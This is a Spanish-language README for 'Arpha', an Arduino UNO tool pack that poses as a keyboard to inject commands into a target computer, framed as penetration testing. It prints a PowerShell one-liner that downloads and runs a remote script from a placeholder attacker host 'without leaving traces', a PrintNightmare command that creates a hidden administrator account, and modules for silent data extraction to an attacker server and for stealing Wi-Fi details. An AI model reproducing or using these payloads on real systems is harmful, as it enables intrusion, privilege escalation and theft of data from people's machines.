 
# Arpha - Mrx04programmer
<center>
<img src="https://raw.githubusercontent.com/mrx04programmer/Arpha/master/ico.png" width="250" align="right"><br>
</center>
Pack de herramientas para pruebas de penetración en sistemas por medio de Arduino UNO.


## Modulos
* **Arpha**
Basado en extraer información organizada y silenciosamente , haciendose pasar por el teclado del dispositivo.
En la linea 28 del Archivo *Arpha.ino* se configura la linea de comando a correr:
<br><br><br>![COMMAND](https://raw.githubusercontent.com/mrx04programmer/Arpha/master/img/command.png)
Y en el campo donde se encuentra **'ATTACKER_IP_SERVER'** es donde se debe cambiar por la ip del servidor a enviar la petición y posteriormente su puerto especifico.

* **Command Remote Powershell**
Logra descargar archivos remotos y ejecutarlos, sin dejar pistas por medio de powershell. Para configurar correctamente el archivo, se deberá cambiar el campo de **'https://PENTESTER_IP:PORT/File.ps1'** por la dirección correcta del servidor, puerto y ruta del archivo de powershell con extensión *ps1*.
```
Keyboard.print("iex (new-object net.webclient).downloadstring('https://PENTESTER_IP:PORT/File.ps1')");
```

* **Escalation Privileges**
Lista de comandos que se ejecutaran automaticamente para lograr la escalación de privilegios y crear un usuario ficticio con privilegios de Administrador.
Su configuración es simple. por defecto el nombre del usuario a crear con los privilegios se llamará 'testing' y su contraseña 'cood', sin embargo estos son preferibles cambiarlos según el entorno de ataque. (Linea 37 - Escalation_Privileges.ino)
```
Keyboard.print("Invoke-Nightmare -NewUser 'testing' -NewPassword 'cood' -DriverName 'PrintMe'");
```

* **MouseController**
La idea de MouseController es poder crear un Mouse virtual por medio del arduino conectado, en el método **loop** del archivo, se encuentra su configuración al gusto propio. Por defecto esta en *0*
![LOOP](https://raw.githubusercontent.com/mrx04programmer/Arpha/master/img/loop.png)<br>
<br>En la función de Mouse.move, se establecen las coordenadas a mover el ratón o mouse. Para ello se necesita saber que el primer dato es el valor de la coordenada **x**, es decir horizontal, luego separado de una coma(,) se asgina el valor de **y**, es decir vertical y separado de una coma(,) se asigna el valor al mover la rueda del ratón o mouse.


* **USB Report**
Mostrará el historial de las USBs posibles y los guardará en un archivo salida. El archivo de salida se puede cambiar (nombre de salida: **output.txt**):
```
ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Enum\USBSTOR\*\* > output.txt | Select FriendlyName >> output.txt 
```

* **Wifi**
El modulo de Wifi es especializado en el arte del pentesting llamado Steal Wifi Info, el cual se trata de obtener la información importante de los Access Point que han sido conectados en el objetivo.

## Arduino Interpretación
<img align="left" src="https://raw.githubusercontent.com/mrx04programmer/Arpha/master/img/arduino.png" width="350">
<div>

1. Al oprimir el botón , envíara el código a compilarlo 
2. Recibirá las ordenes y las leerá
3. Enviará nuevamente las peticiones pero al dispositivo como salida.
</div>

<br><a href="#"><img src="https://img.shields.io/badge/Versión%20De%20Software-1.0-b?style=plastic&color=white&logoColor=black"></a>
<a href="#"><img src="https://img.shields.io/badge/Lenguaje%20Utilizado-Arduino-b?style=plastic&logo=arduino&color=informational&logoColor=white"></a>



